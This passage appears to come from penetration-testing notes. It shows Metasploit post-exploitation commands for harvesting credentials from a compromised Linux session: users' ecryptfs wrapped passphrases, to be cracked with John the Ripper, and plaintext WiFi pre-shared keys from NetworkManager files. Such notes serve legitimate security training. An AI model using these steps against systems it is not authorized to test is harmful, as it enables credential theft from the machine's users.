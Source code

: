 ![Metasploit - post/multi/gather/ssh_creds](.gitbook/assets/image-20230422145010635.png)

- Enumerate users' **.ecrypts directories**

```bash
search ecryptfs_creds
use post/linux/gather/ecryptfs_creds
info
# Description:
#   This module will collect the contents of all users' .ecrypts 
#   directories on the targeted machine. Collected "wrapped-passphrase" 
#   files can be cracked with John the Ripper (JtR) to recover "mount 
#   passphrases".
sessions
set SESSION 2
run
```

![Metasploit - post/linux/gather/ecryptfs_creds](.gitbook/assets/image-20230422150125356.png)

- Enumerate **WiFi credentials**

```bash
search enum_psk
use post/linux/gather/enum_psk
info
# Description:
#   This module collects 802-11-Wireless-Security credentials such as 
#   Access-Point name and Pre-Shared-Key from your target CLIENT Linux 
#   machine using /etc/NetworkManager/system-connections/ files. The 
#   module gathers NetworkManager's plaintext "psk" information.
set SESSION 2
run
```
